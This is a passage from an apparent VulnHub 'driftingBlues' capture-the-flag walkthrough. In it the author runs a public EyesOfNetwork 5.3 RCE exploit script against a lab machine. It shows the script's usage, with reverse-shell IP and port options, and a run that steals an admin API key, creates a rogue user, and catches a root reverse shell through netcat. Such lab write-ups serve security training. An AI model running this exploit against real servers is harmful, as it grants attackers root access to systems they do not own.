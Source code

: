 Because this script seems like a possible quick win, I downloaded the script and tried it:

~/Documents/vulnhub/driftingBlues » python3 eyesExpl.py -h                                       
usage: 
+-----------------------------------------------------------------------------+
| EyesOfNetwork 5.3 RCE (API v2.4.2)                                          |
| 02/2020 - Clément Billac Twitter: @h4knet                                   |
|                                                                             |
| Examples:                                                                   |
| eonrce.py -h                                                                |
| eonrce.py http(s)://EyesOfNetwork-URL                                       |
| eonrce.py https://eon.thinc.local -ip 10.11.0.182 -port 3128                |
| eonrce.py https://eon.thinc.local -ip 10.11.0.182 -user pentest2020         |
+-----------------------------------------------------------------------------+

positional arguments:
  URL                 URL of the EyesOfNetwork server

optional arguments:
  -h, --help          show this help message and exit
  -ip IP              Local IP to receive reverse shell
  -port Port          Local port to listen
  -user Username      Name of the new user to create
  -password Password  Password of the new user
-----------------------------------------------------------------------------------------------------------------------
~/Documents/vulnhub/driftingBlues » python3 eyesExpl.py https://10.0.2.6 -ip 10.0.2.15 -port 8888
+-----------------------------------------------------------------------------+
| EyesOfNetwork 5.3 RCE (API v2.4.2)                                          |
| 02/2020 - Clément Billac Twitter: @h4knet                                  |
+-----------------------------------------------------------------------------+

\[\*\] EyesOfNetwork login page found
\[\*\] EyesOfNetwork API page found. API version: 2.4.2
\[+\] Admin user key obtained: 4666f98686b0e37382df1549cd803bc55777c73b6e75266399d0c32a1ad5cfbd
\[+\] New user h4ker successfully created. ID:2
\[+\] Successfully authenticated
\[+\] Discovery job successfully created with ID: 1&review=1" id="completemsg" style="display: none;">
<div class="roundedcorner\_success\_box">
<div class="roundedcorner\_success\_top"><div></div></div>
<div class="roundedcorner\_success\_content">
              Auto-Discovery Complete.  Click to Continue To Reviewing Found Devices
              </div>
<div class="roundedcorner\_success\_bottom"><div></div></div>
</div></a>
\[\*\]  Spawning netcat listener: 
listening on \[10.0.2.15\] 8888 ...
connect to \[10.0.2.15\] from (UNKNOWN) \[10.0.2.6\] 54364
sh: no job control in this shell
sh-4.2# id
id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# pwd
pwd
/srv/eyesofnetwork/lilac/autodiscovery
sh-4.2# cd /
cd /
sh-4.2# cd root